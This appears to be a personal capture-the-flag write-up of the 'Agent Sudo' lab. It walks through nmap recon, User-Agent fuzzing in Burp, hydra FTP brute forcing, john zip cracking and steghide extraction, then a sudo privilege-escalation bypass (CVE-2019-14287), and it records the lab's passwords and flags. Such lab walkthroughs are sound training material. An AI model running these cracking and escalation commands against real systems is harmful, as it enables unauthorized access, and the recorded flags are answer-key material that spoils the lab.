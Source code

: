 ====Agent Sudo Flutter July 24 2021====

'IP 10.10.219.45
	export IP=10.10.219.45'
'MYIP 10.10.213.35
	export MYIP=10.10.213.35'

# Recon #

----------------
	Scanning
----------------

- nmap -sV -sC -T5 -oN nmap_initial $IP

'''
21/tcp open  ftp     vsftpd 3.0.3

22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
	http-server-header: Apache/2.4.29 (Ubuntu)
	http-title: Annoucement
'''

---------------------
	Visiting Site
---------------------

'''
Dear agents,

Use your own codename as user-agent to access the site.

From,
Agent R 
'''
//Codename? Guessing the "Agent [letter]" is what they mean

- Intercepting with Burp
	> Sniper 
		>> target field: User-Agent 
		>> wordlist of a-zA-Z 
		>> don't exclude HTTP headers and grep for "10, 20, 30, 40, 50"
			//looking for "30" for redirects but more information is always nice
			< 1 redirect found! > User-Agent: C

	> Intercept
		>> set User-Agent: C

		'''
		Attention chris,

		Do you still remember our deal? Please tell agent J about the stuff ASAP. Also, change your god damn password, is weak!

		From,
		Agent R
		'''


---Possible Users---

- Chris
- R?
- J?


# Intrusion #

---ChrisFTP---

- ftp $IP
	Name: chris
	Pass: crystal

ftp > ls
	'''
	-rw-r--r--    1 0        0             217 Oct 29  2019 To_agentJ.txt
	-rw-r--r--    1 0        0           33143 Oct 29  2019 cute-alien.jpg
	-rw-r--r--    1 0        0           34842 Oct 29  2019 cutie.png
	'''
ftp > mget To_agentJ cute-alien.jpg cutie.png
ftp > exit

//all right so we've got all Chris' files, let's see what's headers

- To_agentJ.txt	

'''
Dear agent J,

All these alien like photos are fake! Agent R stored the real picture inside your directory. Your login password is somehow stored in the fake picture. It shouldn't be a problem for you.

From,
Agent C
'''

//oh okay stenography

---Stenography---

- binwalk cutie.png -e
- ls _cutie.png.extracted

'''
365  365.zlib  8702.zip  To_agentR.txt
'''
	8702.zip is password protected
		(see #Passwords#)

- 7z e 8702.zip
	> pass: alien
	> To_agentR.txt

'''
Agent C,

We need to send the picture to 'QXJlYTUx' as soon as possible!

By,
Agent R
'''
	> QXJlYTUx
		(see #Passwords#)


- steghide extract -sf cute-alien.jpg > message.txt
	pass: Area51
		(see #Passwords#)
	

- message.txt

'''
Hi james,

Glad you find this message. Your login password is hackerrules!

Don't ask me why the password look cheesy, ask agent R who set this password for you.

Your buddy,
chris
'''


---SSH---

- ssh james@$IP
	pass: hackerrules!

- ls

'''
Alien_autospy.jpg  user_flag.txt
'''

**Flag Found**
	/home/james/user_flag.txt: <b03d975e8c92a7c04146cfa7a5a313c7>



#PrivEsc

- sudo -l
	> password protected, tried "hackerrules!" and succeeded
	
	"(ALL, !root) /bin/bash"

- searching "(ALL, !root) /bin/bash"
	CVE: 2019-14287
	"sudo -u#-1 /bin/bash"

- root gain

**Flag Found**
	/root/root.txt: <b53a02f55b57d4439e3341834d70c062>



# Passwords #

----------------
	Cracking
----------------

- chris' ftp
	hydra -l chris -P rockyou.txt $IP ftp -o chris_pass
	pass: crystal

- 8702.zip
	zip2john steno/_cutie.png.extracted/8702.zip > 8702john
	john 8702john
	pass: alien

- QXJlYTUx
	CyberChef
	base64: Area51

---------------
	Exposed
---------------

- message.txt
	user: james
 	pass: hackerrules!

